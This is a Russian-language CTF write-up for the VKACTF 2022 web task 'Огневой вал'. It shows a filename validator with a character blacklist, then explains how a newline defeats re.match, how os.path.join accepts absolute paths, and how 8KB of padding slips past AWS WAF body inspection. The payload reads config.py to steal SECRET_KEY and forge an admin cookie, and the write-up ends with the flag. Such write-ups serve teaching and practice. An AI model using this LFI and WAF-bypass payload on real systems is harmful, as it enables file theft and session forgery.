 ## Огневой вал

| Событие | Название | Категория | Сложность |
| :------ | ---- | ---- | ---- |
| VKACTF 2022 | Огневой вал  | Web | Средняя |

  
### Описание


> Автор: [ vChuk ]
>
> Стоит возле леса избушка на кибер-протезах. Многие молодцы просили их накормить и спать уложить хозяйку, да только не возвращался из них никто. Не доверяй своему зрению коли пойдешь к ней, не слушай речей сладких, не кушай яблочек красных – меч обнажи и только вперед иди…


### Решение
В веб приложении был функционал, позволяющий читать файлы других юзеров. На имя файла, происходила проверка
```python
BLACK_LIST = ["/", "#", "!", "@", ";", '"', "'"]

def validator(name):
    for element in BLACK_LIST:
        if re.match(rf".*{element}.*", name):
            return None, "Обнаружен запрещенный символ"
    if ".." in name: return None, "Обнаружен запрещенный символ!"   # <- DETECT LFI
    
    return name.strip(), None
```
Ошибка заключалась, в том, что re.match - ищет значения на первой строчке, т.е. до первого символа "\n". 

При составлении пути был контроль только над filename, ".." был явно запрещен, но os.path.join реалезован так, что если аргумент функции начнется с "/", путь будет составлен с корневой папки, и ошибки при этом не будет.     
```python
path = os.path.join(app.config['UPLOAD_FOLDER'],
                    usershare,
                    filename
                )
```

Последней защитой был WAF AWS. Его обход был возможен с помощью, так называемой [8KB bullet](https://kloudle.com/blog/the-infamous-8kb-aws-waf-request-body-inspection-limitation)

Объединив эти ошибки получаем возможность эксплуатации LFI.
Нагрузкой служит конструкция

```python
payload = " " * 1024 * 8
payload += "\n"
payload += full_path

# POST /share
usershare=some_username
filename = payload 
```
Через /download скачать было нельзя т.к. при такой конфигурации @app.route('/download/<filename>'), <filename> - все / считает как путь в url, а не название файла
Т.к. неизвестно, какой файл необходимо прочиать, то остается вариант подделать сессию. SECRET_KEY находится в config.py

```python
payload = " " * 1024 * 8
payload += "\n"
payload += "/home/app/web/project/config.py"
```

Получив SECRET_KEY, генерируем куки admin и получаем файл c флагом. 

### Флаг

```
vka{waf_security_but_you_can_avoided_it}
```
